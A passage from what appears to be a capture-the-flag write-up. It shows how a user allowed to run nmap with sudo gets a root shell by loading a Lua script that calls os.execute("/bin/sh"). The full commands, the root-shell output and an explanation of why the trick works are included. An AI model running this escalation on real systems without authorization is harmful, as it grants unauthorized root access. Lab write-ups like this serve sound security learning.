 we can see that the installed nmap is in version 7.93, so interactive mode is not available. This means that the second method is not applicable in this case. 

On the other hand, the first method is based on nmap functionality to execute scripts written in Lua. So executing that commands we get the following result

{% include codeHeader.html %}
```console
hacker@HackingStation:/home/hacker$ TF=$(mktemp)
TF=$(mktemp)                                                                                                                                                                                                                                
hacker@HackingStation:/home/hacker$ echo 'os.execute("/bin/sh")' > $TF                                                                                                                                                                      
echo 'os.execute("/bin/sh")' > $TF                                                                                                                                                                                                          
hacker@HackingStation:/home/hacker$ sudo nmap --script=$TF                                                                                                                                                                                  
sudo nmap --script=$TF                                                                                                                                                                                                                      
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-31 01:54 CET                                                                                                                                                                             
NSE: Warning: Loading '/tmp/tmp.YUNY6mz4mx' -- the recommended file extension is '.nse'.                                                                                                                                                    
whoami
root
cd /root
ls
root.txt
snap
```

We can see that we got a shell with the *root* user and that the root flag is in */root/root.txt*.

<div id='section-id-3-3'/>
## 3.3. Why does this privilege escalation via nmap exist?

The function *os.execute* in Lua allows the execution of operating system commands, so the following Lua code

{% include codeHeader.html %}
```lua
os.execute("/bin/sh")
```

is essentially a shell. **When this Lua code is executed through nmap, a shell will be invoked with the same user that executed nmap**. In this case, if nmap is executed without sudo, we get a shell with the *hacker* user, but if we execute nmap with sudo, we get a shell with the *root* user.
